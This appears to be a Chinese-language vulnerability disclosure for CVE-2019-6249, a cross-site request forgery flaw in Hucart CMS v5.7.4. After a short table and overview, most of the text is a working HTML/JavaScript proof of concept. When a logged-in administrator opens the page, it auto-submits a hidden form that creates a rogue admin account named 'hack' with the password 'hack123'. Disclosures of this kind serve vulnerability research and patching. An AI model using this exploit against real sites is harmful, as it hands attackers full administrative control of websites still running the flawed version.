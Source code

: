 ### 漏洞简介  

|漏洞名称|上报日期|漏洞发现者|产品首页|软件链接|版本|CVE编号|
--------|--------|---------|--------|-------|----|------|
|Hucart-cms-v5.7.4-CSRF漏洞可任意增加管理员账号|2019-01-13|AllenChen（520allen@gmail.com）|[http://www.hucart.com/](http://www.hucart.com/) | [http://www.hucart.com/](http://www.hucart.com/) |v5.7.4| [CVE-2019-6249](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-6249)|  

#### 漏洞概述  

> Hucart cms v5.7.4版本存在一个CSRF漏洞，当管理员登陆后访问下面CSRF测试页面可增加一个名为hack的管理员账号。   

### POC实现代码如下：  

> exp代码如下：  
> 增加一个名为hack密码为hack123的管理员账号。

``` html
<html><body>
<script type="text/javascript">
function post(url,fields)
{
var p = document.createElement("form");
p.action = url;
p.innerHTML = fields;
p.target = "_self";
p.method = "post";
document.body.appendChild(p);
p.submit();
}
function csrf_hack()
{
var fields;

fields += "<input type='hidden' name='adm_user' value='hack' />";
fields += "<input type='hidden' name='adm_email' value='admin@hack.com' />";  
fields += "<input type='hidden' name='adm_mobile' value='13888888888' />";  
fields += "<input type='hidden' name='adm_pwd' value='hack123' />";  
fields += "<input type='hidden' name='re_adm_pwd' value='hack123' />";  
fields += "<input type='hidden' name='adm_enabled' value='1' />";  
fields += "<input type='hidden' name='act_type' value='add' />";  
fields += "<input type='hidden' name='adm_id' value='' />";  

var url = "http://localhost/hucart_cn/adminsys/index.php?load=admins&act=edit_info&act_type=add";
post(url,fields);
}
window.onload = function() { csrf_hack();}
</script>
</body></html>
```
